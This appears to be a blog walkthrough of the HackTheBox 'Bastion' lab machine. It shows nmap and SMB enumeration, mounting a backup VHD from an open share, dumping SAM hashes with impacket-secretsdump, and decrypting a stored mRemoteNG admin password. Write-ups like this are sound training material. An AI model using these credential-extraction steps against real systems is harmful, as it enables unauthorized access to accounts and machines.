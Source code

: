 ```yaml
---
layout: post
title: HTB Bastion Walkthrough
categories: [HTB, OSCP]
---
```


Lets dig into really nice easy box from HTB. Enumeration was key and really interesting technique to acquire both passwords.

![](/images/bastion-htb/logo.png)

First we did some recon with nmap first

```bash
nmap  -sC -sV -oA nmap/initial 10.10.10.134
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-31 01:04 EST
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-01-31T07:04:55+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-31T06:04:53
|_  start_date: 2021-01-30T14:27:36

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.90 seconds
```

We have few ports open 
* SSH which is unusual for windows box
* 135,445 SMB port
* 139 is RPC

I start looking for SMB share if any is available with smbclient

```bash
smbclient -L //10.10.10.134 -N
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

I can see there is Backups which is not default. I fire up smbmap to double check permissions on this share.

```bash
smbmap -H 10.10.10.134 -u " " -p " "                
[+] Guest session       IP: 10.10.10.134:445    Name: 10.10.10.134                                      
[|] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\CRGLQMBUJS, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
                                                                                            
```

I had Read and Write permissions. After some time of digging i found vhd file which i know is probably some file system maybe backup of this machine. I look for some manual how to mount/access this vdh in kali. I end up on this article which was exactly what i was looking for [link](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

Basically i needed to install some tool to access shares.

```bash
sudo apt install cifs-utils 
sudo apt install libguestfs-tools
```

Them I create to folders /mnt/media and /mnt/vdh. I mount Backup share to media dn vdh file to vdh folder

```bah
sudo mount -t cifs //10.10.10.134/Backups /mnt/media 
sudo guestmount --add /mnt/media/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vdh
```

I start looking for file. Find username of this machine. Because I had access to all files and none of them was protected I can access SAM file which contains passwords.

I use this command from impacket tools
```bash
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

I was clear text for auto login password. As i know username from users folder I tried to get access via SSH and I was in. Tried to use winpeas.exe but i was getting access denied on different folders. I start looking for common files and i noticed mRemoteNg. Start googling and there is an easy password access on Windows box. I look for linux option and find this python [script](https://github.com/haseebT/mRemoteNG-Decrypt). I downloaded config.xml file from victim machine to my kali box. Run script against this file but there was some error issue. Script also have option for pass password value from xml file. That give me password for administrator

```bash
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0E**
```

I also spin my win box and tried to get admin password.
I copy xml file and downloaded mremote portable version from their websites/
I lunch application and choose *Open Connection File...*

![](/images/bastion-htb/mremote-open.png)

mRemoteNg have ability to work with external tools. I clicked on Tools -> External Tools and add this cmd command.

![](/images/bastion-htb/mremote-cmd.png)

Them just right click on DC connection and external tools -> cmd will give me pop up with current password

![](/images/bastion-htb/mremote-admin.png)


___
Lesson learned..... 

I forgot to run nmap scan on all ports
```bash
nmap -p - -oA nmap/allports 10.10.10.134 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-31 01:05 EST
Stats: 0:07:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 76.54% done; ETC: 01:15 (0:02:12 remaining)
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 605.68 seconds
```

Tried evil-winrm as L4mpje but access was denied due to authorization. *Always have some recon on background!* and happy learning :)






